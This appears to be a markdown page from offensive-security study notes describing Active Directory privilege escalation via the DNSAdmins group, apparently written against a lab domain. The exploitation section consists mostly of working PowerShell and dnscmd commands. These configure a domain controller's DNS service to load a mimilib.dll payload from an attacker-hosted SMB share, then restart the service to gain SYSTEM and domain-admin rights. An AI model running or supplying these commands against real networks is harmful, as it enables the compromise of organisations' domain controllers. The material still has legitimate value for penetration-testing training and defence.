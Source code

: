 ```yaml
---
title: "DNS Admins"
description: "Privilege escalation using DNS Admins."
lead: "Using DNS Admins for privilege escalation in Active Directory with PowerView and Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_privilege_escalation"
weight: 50
toc: true
---
```


## General

- Members of the DNS Admins group can load arbitrary DLL's with the privileges of dns.exe (SYSTEM)
- If the DC serves as DNS server, we can escalate to DA
- But: need to be able to restart the DNS on the DC

## Exploitation

- Can use mimilib.dll from mimikatz
- Modify kdns.c or use boiler plate from [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
- mimilib.dll logs all DNS queries to C:\Windows\System32\kiwidns.log by default
- Host DLL on SMB server with anonymous access
- Be careful, else DNS might fail -> noisy!

```powershell
# Enumerate members of DNSAdmins group
# Using PowerView 3.0
Get-DomainGroupMember "DNSAdmins"

# Using AD Module
Get-ADGroupMember -Identity "DNSAdmins"

# With privileges of DNSAdmins member, e.g. through PTH, configure DLL
# Using dnscmd.exe (needs RSAT DNS)
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.72.100\dll\mimilib.dll

# Using DNSServer module (needds RSAT DNS)
$dnsettings = Get-DNSServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\172.16.72.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName dcorp-dc -Verbose

# Restart DNS service
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
```
